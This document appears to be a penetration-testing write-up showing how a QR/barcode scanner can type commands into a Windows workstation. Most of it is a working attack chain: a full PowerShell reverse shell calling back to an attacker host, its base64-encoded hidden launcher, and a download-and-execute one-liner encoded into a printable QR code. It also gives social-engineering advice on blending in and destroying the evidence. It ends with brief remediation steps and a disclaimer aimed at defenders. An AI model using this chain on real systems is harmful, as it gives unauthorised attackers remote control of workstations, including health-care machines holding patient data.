










# Can a QR scanner compromise your system


A barcode / QR scanner is a convenient tool used in daily lives, from doing groceries to sharing business contact information at conventions.  Hospitals and health care facilities also use it for scanning medications and patient health information.  This tool is often overlooked as a HID device used to communicate with the computer. 

When physical controls exist that prevent USB access, or commands would take longer to type then the desired amount of time a QR scanner could be an overlooked portal for compromise.  A USB drive or rubber ducky may seem like an easier choice, but think of the computers locked in cabinets, or mobile workstations where only a keyboard, mouse and scanner are attached. The QR scanner is already a trusted device on the computer, and there are no guarantees that the Rubber Ducky or USB drive would run on the computer. 

By scanning a code using a QR scanner, data is sent to the computer, much the same way when a key on the keyboard is pressed that data is sent to the computer. Think of bar codes or QR codes as stored versions of keystrokes and when scanned they are being entered at a high rate of speed. 

Follow along in the instructions below with a successful attempt to gain a reverse shell using nothing but the Windows + R keys and a QR code. In these examples, I will be using Virtual Machines running Kali as the attacker and windows 10 as the victim:

# Staging – Setup for a connection
### Step 1 – Building the Reverse Shell
The first and most important step is to determine how to communicate with the computer once physical access is gained.  Start by creating a reverse shell.  Create a payload using powershell, which will connect back to the Kali machine listening on port 7775 with Netcat.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.99.12.233",7775)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2  = $sendback + "PS " + (pwd).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close() 

```

### Step 2 - Encode the Reverse Shell
Next, do some basic obfuscation of this code using base64 encoding. Convert the above to a one-liner and send it through a base64 conversion process. Output it to a text file “1.txt”, so it can be read later from the victim machine.  Check out my Buddy  [Gh0x0st’s](https://github.com/gh0x0st/Invoke-PSObfuscation) acritical on poweshell obfuscation for more detailed and in depth discussion on obfuscation.(https://github.com/gh0x0st/Invoke-PSObfuscation)

```powershell
$Text = '$client = New-Object System.Net.Sockets.TCPClient("10.99.12.233",7775);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$myBytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($myBytes)
"powershell -NoP -NonI -W Hidden -Exec Bypass -Enc " + $EncodedText > C:\users\test\desktop\1.txt 

```

Below are the results of the base64 encoded Reverse Shell file “1.txt”. Hosting this file from the Kali machine, this code will be downloaded and executed when scanning the QR code.

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOQA5AC4AMQAyAC4AMgAzADMAIgAsADcANwA3ADUAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
```

### Step – 3 Start a listener for the Reverse Shell.
Use Netcat as the listener for the reverse shell and set it to port 7775
 


### Step – 4 Host the Reverse Shell
There is no need to host the file just as long as it is in a location that the victim computer can get to.  
Use the Kali machine to start an http server and host the reverse shell file “1.txt”. For this example, Python and the SimpleHTTPServer module on port 7776 is used to host the file.
 


### Step 5 – Code for the QR scanner to execute
Now that the reverse shell is encoded and being hosted the QR code and reader can be utilized to access the file quickly without alerting any suspicions. Another powershell script can be built that will download and run the reverse shell from the SimpleHTTPServer.  
The code, when ran, will start a hidden powershell terminal and execute a command to download the reverse shell “1.txt”, save it as “1.ps1” to the environment's temp directory and execute it. 

```powershell
powershell -W Hidden -c "& {$2=$env:temp;iex(New-object System.net.Webclient).DownloadFile('http://10.99.12.233:7776/1.txt',$2+'\1.ps1'); .$2'\1.ps1'}" 
```
### Step 6 – Build the QR Code and print
To convert the powershell to a QR code use the site https://www.barcodesinc.com/generator/qr/
Copy and paste the powershell code into the text field and click "create" to create a QR. After the QR code is generated, save the image to the computer for later use and then print it.  Scanning the code from the monitor or a cell phone can take several tries and viewing angles to be successful in reading the code.  A printed copy works nearly every time. 



The final step in the staging process is to print the QR code and prepare for the attack. 

# Attack Phase

In this phase, it is time to put your social engineering skills to the test. When you're in the middle of a social engineering engagement, it is important to act like you belong.  Whether finding an unattended computer or talking your way through a locked door, that is what all this work has led up to and can be ruined if you're not socialable. With a slight manipulation of the keyboard and a scan of a QR code, the computer is compromised in less than three seconds. 

### [Victim machine]
Windows Key + R
 


A quick press of the windows hotkey and the letter “R” activates a run prompt to enter keystrokes. In this case, the QR code stores all the keystrokes. 



Scan the QR code
 


Once the QR is scanned the text will be entered into the run prompt and executed, if you blink you might miss it. Because of the previous staging efforts, a powershell session will be started in a hidden window, the call to download and run the reverse shell will all be done in the background.
 


### [Attackers machine]

Back on the attacking machine, the victim computer is connected to the http server to download the reverse shell file “1.txt”.  
 


The netcat listener accepts the connection from the victim’s machine and provides a prompt to start entering commands.  
 


### Summary 

The QR and a scanner can be equivalent to that of a rubber ducky, with its rapid keystrokes and it's relative concealment.  Once the QR code and powershell code are created, it is a simple “scan the code and walk away” process. In less than 3 seconds the paper with the QR code evidence can be tossed into a shredder or recycle bin on the way out the door. 

If already using a rubber ducky or a USB drive as part of the pen test, this is just another tool to have in the tool belt. It is probably the cheapest of the tools to have; just need to print a QR on paper. This can and should be integrated into pen testing workflows for any organization with QR scanners. 

**_Health care facilities frequently utilizing QR scanners are particularly susceptible; QR scanners should not be over looked as a source for compromising PHI._**  
  
### Remediation

From this pen testing exercise several important security measures can be put into place to prevent compromise:  

1. Removing PowerShell from workstations that do not need it should be a priority
2. Enforcing user session timeouts and automatic timeouts are also important  
3. Computers and workstations should only be allowed to access the network or internet resources as needed to do the job they were designed for 
   
### Disclaimer
This was written as education and awareness for system administrators, security professionals, and organizations that utilize QR scanners. The included code and demonstrations are not meant for malicious use, only to show practical application. Use this information on systems you own or have written permission to actively pen test. **_You are responsible for your own action when utilizing the information in this write up._**


